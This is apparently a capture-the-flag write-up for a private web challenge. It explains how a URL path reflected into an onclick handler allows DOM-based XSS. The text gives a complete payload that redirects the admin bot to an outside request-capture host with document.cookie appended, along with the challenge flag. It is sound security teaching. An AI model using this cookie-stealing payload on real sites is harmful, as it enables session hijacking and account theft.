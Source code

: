 # Cross dungeon

Here is my writeup of the second web challenge of a private CTF. (Challenge by Mizu)

I flag it with an unintended method so you can check this [writeup](https://hippie.cat/post/Writeup/ESAIP-Qualif/Cross-site-dungeon) from Hippie to see the intended method.

Task: The final battle against ganon has started! Ganon is holding the holy cookie, find a way to steal it from him!

## First look

We can see a little welcome page:

![first_look](images/first_look.png)

We have 2 interesting pages. First we can see the dungeon where we can fight a monster and secondly we can report an url to the administrator.

Let's take a look to the dungeon:

![dungeon](images/dungeon.png)

We can use 3 objects, a sword, a potion and a shield we'll use it later.

Now we'll check the report page:

![report](images/report.png)

Hum, we can see that the administrator takes a potion while checking our vulnerable page, we'll exploit that.

## Setup the vulnerability

This is a js application and we have to steal cookies so we can suppose that we'll exploit a DOM Based XSS. I let you check my [article](https://0xhorizon.eu/articles/xss-dom-based/) about this vulnerability.

Let's have a look to the code, here is the HTML code for the potion:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('Link', 'Potion', '30')">Potion</button>
</div>
```

Hum, in our url ``/dungeon/30/Link`` there is 'Link' so is the url reflected in JS ?

Let's try with ``/dungeon/30/Booyaaaa``:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('Booyaaaa', 'Potion', '30')">Potion</button>
</div>
```

Yeah! We know that the administrator clicks on the potion so it will execute the JS code in make_damage(). Let's exploit it!

## Exploitation

I wrote a twitter [post](https://twitter.com/Ruulian_/status/1452369937515876356) about something in js which is useful in our case, all parameters of JS functions are evaluated :p

But we are in a string, we just have to close the quote. Our payload will start with ``'``.

Now we are in the JS as we want now, we'll use my little trick and put a ``,``, now we are in the second parameter and we can do what we want!

We'll use a redirect to an endpoint like [Beeceptor](https://beeceptor.com) to get admin cookies, here is our payload now: ``', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie))``.

But if we put this payload it will raise an error because the JS looks like that:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie))', 'Potion', '30')">Potion</button>
</div>
```

We'll finish with a ``,'`` to retrieve the end of the function:

```html
<div class="item_attack" style="margin-right: auto;">
    <img class="center mgb-1" src="/static/images/potion.png" width="75px">
    <button id="potion" onclick="make_damage('', document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie)), '', 'Potion', '30')">Potion</button>
</div>
```

``make_damage()`` takes 3 arguments but we gave 4, this is not a problem because the ``document.location.replace()`` is evaluated first :p

Let's try if our payload works!

Payload: ``http://172.17.0.2/dungeon/30/',document.location.replace('https://challenge.free.beeceptor.com/'.concat(document.cookie)),')``

## Testing locally

We have to click on potion because we know that the bot does it when checking our url, let's try!

![beeceptor](images/beeceptor.png)

Yeah! Our payload works well!

## Conclusion

We just have to report it to the administrator and get our flag :p

![flag](images/flag.png)

Flag: ``R2Lille{1NN3R_HTML_t0_XSS_3AzYYY}``

Thanks for this cool challenge ^^